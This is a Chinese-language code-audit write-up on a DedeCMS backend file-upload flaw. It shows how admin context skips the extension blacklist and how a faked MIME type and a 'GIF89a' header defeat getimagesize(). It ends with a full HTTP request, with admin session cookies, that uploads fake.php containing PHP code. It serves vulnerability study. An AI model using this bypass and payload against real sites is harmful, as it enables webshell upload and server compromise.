


# 后台文件上传

首先查看index .php  看下是否有全局过滤文件

```
if(!file_exists(dirname(__FILE__).'/data/common.inc.php'))
{
    header('Location:install/index.php');
    exit();
}
```

全局加载 data/common.inc.php

```
//转换上传的文件相关的变量及安全处理、并引用前台通用的上传函数
if($_FILES)
{
	require_once(DEDEINC.'/uploadsafe.inc.php');
}

```

追踪到 uploadsafe.inc.php文件  对上传的文件进行了全局过滤

```
<?php
if(!defined('DEDEINC')) exit('Request Error!');

if(isset($_FILES['GLOBALS'])) exit('Request not allow!');

//为了防止用户通过注入的可能性改动了数据库
//这里强制限定的某些文件类型禁止上传
$cfg_not_allowall = "php|pl|cgi|asp|aspx|jsp|php3|shtm|shtml";
$keyarr = array('name','type','tmp_name','size');

foreach($_FILES as $_key=>$_value)
{
	foreach($keyarr as $k)
	{
		if(!isset($_FILES[$_key][$k]))
		{
			exit('Request Error!');
		}
	}
	if( eregi('^(cfg_|GLOBALS)',$_key) )
	{
		exit('Request var not allow for uploadsafe!');
	}
	$$_key = $_FILES[$_key]['tmp_name'] = str_replace("\\\\","\\",$_FILES[$_key]['tmp_name']);
	${$_key.'_name'} = $_FILES[$_key]['name'];
	${$_key.'_type'} = $_FILES[$_key]['type'] = eregi_replace('[^0-9a-z\./]','',$_FILES[$_key]['type']);
	${$_key.'_size'} = $_FILES[$_key]['size'] = ereg_replace('[^0-9]','',$_FILES[$_key]['size']);
	if(!empty(${$_key.'_name'}) && (eregi("\.(".$cfg_not_allowall.")$",${$_key.'_name'}) || !ereg("\.",${$_key.'_name'})) )
	{
		if(!defined('DEDEADMIN'))
		{
			exit('Upload filetype not allow !');
		}
	}
	if(empty(${$_key.'_size'}))
	{
		${$_key.'_size'} = @filesize($$_key);
	}
	
	$imtypes = array("image/pjpeg","image/jpeg","image/gif","image/png","image/xpng","image/wbmp","image/bmp");
    if(in_array(strtolower(trim(${$_key.'_type'})),$imtypes))
    {
        $image_dd = @getimagesize($$_key);
        if (!is_array($image_dd))
        {
            exit('Upload filetype not allow !');
        }
    }
}
?>
```

**关键代码**-上传条件一

```
	if(!empty(${$_key.'_name'}) && (eregi("\.(".$cfg_not_allowall.")$",${$_key.'_name'}) || !ereg("\.",${$_key.'_name'})) )
	{
		if(!defined('DEDEADMIN'))
		{
			exit('Upload filetype not allow !');
		}
	}
	if(empty(${$_key.'_size'}))
	{
		${$_key.'_size'} = @filesize($$_key);
	}
```

> 第一个if语句，empty()判断是否存在文件名，之后再匹配是为黑名单后缀，和是否有符号 " **.**"（判断是否上传了有后缀文件）。
>
> **但仔细看 如果上传一个 .php 后缀文件 。1&&(1||1) 不是为真吗，** 这样有阻止上传的效果吗？
>
> 所以进入嵌套的 if 判断 (!defined('DEDEADMIN')，**DEDEADMIN** 只有在后台登陆时才被定义，用户在前台上传是直接会退出的。
>
> 
>
> 第二个if语句，判断文件大小，不为空文件即可。
>
> **所以如果在后端上传文件的话，基本是不受全局过滤的影响的，**

> **通过追踪可知，只有在config.php中定义的DEDEADMIN参数，但是通过前台访问的话是不会引用到config.php文件的。**

config.php文件 中定义了 DEDEADMIN

```
<?php
define('DEDEADMIN', ereg_replace("[/\\]{1,}", '/', dirname(__FILE__) ) );
require_once(DEDEADMIN.'/../include/common.inc.php');
require_once(DEDEINC.'/userlogin.class.php');
header('Cache-Control:private');
$dsql->safeCheck = false;
$dsql->SetLongLink();
```


**关键代码**-上传条件二

```
$imtypes = array("image/pjpeg","image/jpeg","image/gif","image/png","image/xpng","image/wbmp","image/bmp");
    if(in_array(strtolower(trim(${$_key.'_type'})),$imtypes))
    {
        $image_dd = @getimagesize($$_key);
        if (!is_array($image_dd))
        {
            exit('Upload filetype not allow !');
        }
    }
}
```

> 其中 $$_key 为上传的文件。
>
> 第一个if 语句使用了mime类型判断。这个通过burpsuite或直接修改php文件后缀为.jpg可以轻送绕过
>
> 第二个if 语句
>
> getimagesize()
> 这个函数功能会对目标文件的16进制去进行一个读取，去读取头几个字符串是不是符合图片的要求的。（此函数作为文件上传函数是不安全的）
>
> 这里直接在文件内容头中 加上**GIF89a**  直接进行绕过。




访问



数据包

```
POST /dede/archives_do.php HTTP/1.1
Host: www.test.com
Content-Length: 3278
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://www.test.com
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryIH2JS1Q3YdzA1vUg
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.51 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://www.test.com/dede/article_add.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: menuitems=1_1%2C2_1%2C3_1; PHPSESSID=cuvj2k2q56iv4gnd0pfhcr0so4; DedeUserID=1; DedeUserID__ckMd5=c769f293921dba16; DedeLoginTime=1664940754; DedeLoginTime__ckMd5=d298b4cc4e4091ec; ENV_GOBACK_URL=%2Fdede%2Fcontent_list.php
Connection: close

------WebKitFormBoundaryIH2JS1Q3YdzA1vUg
Content-Disposition: form-data; name="channelid"

1
------WebKitFormBoundaryIH2JS1Q3YdzA1vUg
Content-Disposition: form-data; name="dopost"

uploadLitpic
------WebKitFormBoundaryIH2JS1Q3YdzA1vUg
Content-Disposition: form-data; name="title"


------WebKitFormBoundaryIH2JS1Q3YdzA1vUg
Content-Disposition: form-data; name="shorttitle"


------WebKitFormBoundaryIH2JS1Q3YdzA1vUg
Content-Disposition: form-data; name="redirecturl"


------WebKitFormBoundaryIH2JS1Q3YdzA1vUg
Content-Disposition: form-data; name="tags"


------WebKitFormBoundaryIH2JS1Q3YdzA1vUg
Content-Disposition: form-data; name="weight"

0
------WebKitFormBoundaryIH2JS1Q3YdzA1vUg
Content-Disposition: form-data; name="picname"


------WebKitFormBoundaryIH2JS1Q3YdzA1vUg
Content-Disposition: form-data; name="litpic"; filename="fake.php"
Content-Type: image/jpeg

GIF89a
<?php phpinfo(); ?>
------WebKitFormBoundaryIH2JS1Q3YdzA1vUg
Content-Disposition: form-data; name="source"


------WebKitFormBoundaryIH2JS1Q3YdzA1vUg
Content-Disposition: form-data; name="writer"


------WebKitFormBoundaryIH2JS1Q3YdzA1vUg
Content-Disposition: form-data; name="typeid"

0
------WebKitFormBoundaryIH2JS1Q3YdzA1vUg
Content-Disposition: form-data; name="typeid2"


------WebKitFormBoundaryIH2JS1Q3YdzA1vUg
Content-Disposition: form-data; name="keywords"


------WebKitFormBoundaryIH2JS1Q3YdzA1vUg
Content-Disposition: form-data; name="autokey"

1
------WebKitFormBoundaryIH2JS1Q3YdzA1vUg
Content-Disposition: form-data; name="description"


------WebKitFormBoundaryIH2JS1Q3YdzA1vUg
Content-Disposition: form-data; name="dede_addonfields"


------WebKitFormBoundaryIH2JS1Q3YdzA1vUg
Content-Disposition: form-data; name="remote"

1
------WebKitFormBoundaryIH2JS1Q3YdzA1vUg
Content-Disposition: form-data; name="autolitpic"

1
------WebKitFormBoundaryIH2JS1Q3YdzA1vUg
Content-Disposition: form-data; name="needwatermark"

1
------WebKitFormBoundaryIH2JS1Q3YdzA1vUg
Content-Disposition: form-data; name="sptype"

hand
------WebKitFormBoundaryIH2JS1Q3YdzA1vUg
Content-Disposition: form-data; name="spsize"

5
------WebKitFormBoundaryIH2JS1Q3YdzA1vUg
Content-Disposition: form-data; name="body"


------WebKitFormBoundaryIH2JS1Q3YdzA1vUg
Content-Disposition: form-data; name="notpost"

0
------WebKitFormBoundaryIH2JS1Q3YdzA1vUg
Content-Disposition: form-data; name="click"

98
------WebKitFormBoundaryIH2JS1Q3YdzA1vUg
Content-Disposition: form-data; name="sortup"

0
------WebKitFormBoundaryIH2JS1Q3YdzA1vUg
Content-Disposition: form-data; name="color"


------WebKitFormBoundaryIH2JS1Q3YdzA1vUg
Content-Disposition: form-data; name="arcrank"

0
------WebKitFormBoundaryIH2JS1Q3YdzA1vUg
Content-Disposition: form-data; name="money"

0
------WebKitFormBoundaryIH2JS1Q3YdzA1vUg
Content-Disposition: form-data; name="pubdate"

2022-10-05 11:42:37
------WebKitFormBoundaryIH2JS1Q3YdzA1vUg
Content-Disposition: form-data; name="ishtml"

1
------WebKitFormBoundaryIH2JS1Q3YdzA1vUg
Content-Disposition: form-data; name="filename"


------WebKitFormBoundaryIH2JS1Q3YdzA1vUg
Content-Disposition: form-data; name="templet"


------WebKitFormBoundaryIH2JS1Q3YdzA1vUg--

```


不懂架构，追函数花了挺长时间.。。